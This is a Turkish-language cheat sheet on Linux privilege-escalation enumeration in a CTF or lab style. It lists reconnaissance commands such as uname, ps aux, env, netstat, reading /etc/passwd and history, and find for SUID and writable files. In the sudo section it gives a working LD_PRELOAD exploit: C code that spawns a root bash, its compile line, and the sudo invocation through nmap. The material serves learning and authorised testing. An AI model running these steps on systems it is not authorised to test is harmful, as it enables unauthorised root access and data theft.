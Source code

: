 
```bash
hostname
```
Komut hostname hedef makinenin ana bilgisayar adını döndürecektir. Bu değer kolayca değiştirilebilse veya nispeten anlamsız bir dizeye sahip olsa da (örneğin Ubuntu-3487340239), bazı durumlarda hedef sistemin kurumsal ağ içindeki rolü hakkında bilgi sağlayabilir (örneğin bir üretim SQL sunucusu için SQL-PROD-01).
---

```bash
uname -a
```
Sistem tarafından kullanılan çekirdek hakkında bize ek ayrıntılar veren sistem bilgilerini yazdıracaktır. Bu, ayrıcalık artışına yol açabilecek olası çekirdek güvenlik açıklarını ararken faydalı olacaktır.

---

```bash
cat /proc/version
```
Proc dosya sistemi (procfs), hedef sistem süreçleri hakkında bilgi sağlar. Proc'u birçok farklı Linux sürümünde bulabilirsiniz, bu da onu cephaneliğinizde bulundurmanız gereken önemli bir araç haline getirir.

Bakmak /proc/versionsize çekirdek sürümü ve derleyicinin (örneğin GCC) yüklü olup olmadığı gibi ek veriler hakkında bilgi verebilir.
---
```bash
cat /etc/issue
```
Sistemler ayrıca dosyaya bakılarak da tanımlanabilir /etc/issue. Bu dosya genellikle işletim sistemi hakkında bazı bilgiler içerir ancak kolayca özelleştirilebilir veya değiştirilebilir. Konu açılmışken, sistem bilgisi içeren herhangi bir dosya özelleştirilebilir veya değiştirilebilir. Sistem hakkında daha net bir anlayış için, bunların hepsine bakmak her zaman iyidir.
---

ps Komutu
Komut, Linuxps  sisteminde çalışan işlemleri görmenin etkili bir yoludur .  Terminalinize yazdığınızda geçerli kabuk için işlemler gösterilecektir. ps

(İşlem Durumu) çıktısı ps aşağıdakileri gösterecektir;

- PID: İşlem kimliği (işleme özgü)
- TTY: Kullanıcı tarafından kullanılan terminal türü
- Zaman: İşlem tarafından kullanılan CPU zamanı miktarı (bu, işlemin çalıştığı zaman DEĞİLDİR)
- CMD: Çalışan komut veya yürütülebilir dosya (herhangi bir komut satırı parametresini görüntülemez)
“ps” komutu birkaç yararlı seçenek sunar.

- ps -A: Çalışan tüm işlemleri görüntüle
- ps axjfps axjf: İşlem ağacını görüntüle ( aşağıda çalıştırılana kadar ağaç oluşumunu görün )
- ps aux: Bu aux seçenek tüm kullanıcılar için işlemleri gösterecek (a), işlemi başlatan kullanıcıyı gösterecek (u) ve bir terminale bağlı olmayan işlemleri gösterecektir (x). ps aux komut çıktısına baktığımızda sistem ve olası güvenlik açıkları hakkında daha iyi bir anlayışa sahip olabiliriz.

```bash
ps aux
```
---
Env variables
![image](https://github.com/user-attachments/assets/ea6b8963-10a4-4940-9c0b-0621abda5a43)

```bash
env
```
PATH değişkeni, hedef sistemde kod çalıştırmak veya ayrıcalık yükseltme için kullanılabilecek bir derleyiciye veya betik diline (örneğin Python) sahip olabilir.


---

#Yetki aramaları

```bash
sudo -l
```
Çıktıda LD_PRELOAD ortam değişkeni varsa bunu aşağıda sudo yetkileri ile kullanabiliriz 

mesela çıktıda :
```bash
env_keep+=LD_PRELOAD 
(root) NOPASSWD: /usr/bin/nmap 
```
bunu bulursak 
bir dosya içine aşağıdaki yada kendi shelimiz ne ise onu kullanabiliriz örn:

``` c++
#include <sys/types.h> #include <stdlib.h>
void _init() { unsetenv("LD_PRELOAD");
setgid(0);
setuid(0); system("/bin/bash");
}
#include <stdio.h>
```
shell.c olarak kaydettik 

```bash
gcc -fPIC -shared -o /tmp/shell.so shell.c -nostartfiles 
# daha sonra
sudo LD_PRELOAD=/tmp/shell.so nmap
```
burası bizi root'a götürücek 
 
```bash
whoami
#root
```

Hedef sistem, kullanıcıların bazı (veya tüm) komutları kök ayrıcalıklarıyla çalıştırmasına izin verecek şekilde yapılandırılabilir. sudo -l Komut, kullanıcınızın . kullanarak çalıştırabileceği tüm komutları listelemek için kullanılabilir sudo.

---

İD
Komut, id kullanıcının ayrıcalık düzeyi ve grup üyelikleri hakkında genel bir bakış sağlayacaktır.
```bash
id
```
id Aşağıda görüldüğü gibi komutun başka bir kullanıcı için de aynı bilgiyi almak amacıyla kullanılabileceğini hatırlatmakta fayda var .

---

```bash
cat /etc/passwd
```
veya 
 Başka bir yaklaşım da "home" için grep yapmak olabilir, çünkü gerçek kullanıcıların klasörleri büyük ihtimalle "home" dizini altında olacaktır.
Dosyayı okumak /etc/passwd sistemdeki kullanıcıları keşfetmenin kolay bir yolu olabilir.

```bash
cat /etc/passwd | grep home
```
---

``` bash
history
```
Komutla ilgili daha önceki komutlara bakmak  history bize hedef sistem hakkında fikir verebilir ve nadiren de olsa şifreler veya kullanıcı adları gibi saklanmış bilgiler içerebilir.

---

netstat
Mevcut arayüzler ve ağ rotaları için ilk kontrolün ardından, mevcut iletişimlere bakmakta fayda vardır. netstatKomut, mevcut bağlantılar hakkında bilgi toplamak için birkaç farklı seçenekle birlikte kullanılabilir.

``` bash
netstat
```

netstat -a: tüm dinleme portlarını ve kurulan bağlantıları gösterir.
netstat -atveya sırasıyla TCP veya UDP protokollerini netstat -aulistelemek için de kullanılabilir .
netstat -l: “dinleme” modunda portları listeler. Bu portlar açıktır ve gelen bağlantıları kabul etmeye hazırdır. Bu, yalnızca TCP protokolünü (aşağıda) kullanarak dinleyen portları listelemek için “t” seçeneğiyle kullanılabilir

---
Komutu bul
Hedef sistemde önemli bilgiler ve potansiyel ayrıcalık yükseltme vektörleri aramak verimli olabilir. Dahili "find" komutu kullanışlıdır ve cephaneliğinizde bulundurmaya değer.

Aşağıda “find” komutu için bazı yararlı örnekler verilmiştir.
hataları "/dev/null"a yönlendirmek ve daha temiz bir çıktı elde etmek için "find" komutunu "-type f 2>/dev/null" ile kullanmak akıllıca olacaktır 
Dosyaları bul:
- find / -type f -perm -04000 -ls 2>/dev/null (***oldukça öenmli)
- find / -writable -type d 2>/dev/null 
- find . -name flag1.txt: geçerli dizinde “flag1.txt” adlı dosyayı bulun
- find /home -name flag1.txt: /home dizinindeki “flag1.txt” dosya adlarını bulun
- find / -type d -name config: “/” altında config adlı dizini bulun
- find / -type f -perm 0777: 777 izinlerine sahip dosyaları bul (tüm kullanıcılar tarafından okunabilir, yazılabilir ve çalıştırılabilir dosyalar)
- find / -perm a=x: çalıştırılabilir dosyaları bul
- find /home -user frank: “frank” kullanıcısına ait tüm dosyaları “/home” altında bul
- find / -mtime 10: Son 10 günde değiştirilen dosyaları bul
- find / -atime 10: Son 10 günde erişilen dosyaları bul
- find / -cmin -60: Son bir saat (60 dakika) içinde değiştirilen dosyaları bul
- find / -amin -60: Son bir saat (60 dakika) içinde erişilen dosyaları bul
- find / -size 50M: 50 MB boyutundaki dosyaları bul
Bu komut, belirtilen boyuttan daha büyük veya daha küçük bir dosyayı belirtmek için (+) ve (-) işaretleriyle birlikte de kullanılabilir.

``` bash
find . -name flag1.txt
```
Dosyayı geçerli kullanıcıdan daha yüksek bir ayrıcalık seviyesiyle çalıştırmamızı sağlayan SUID bitine sahip dosyaları bulun.
``` bash
find / -perm -u=s -type f 2>/dev/null
```
---








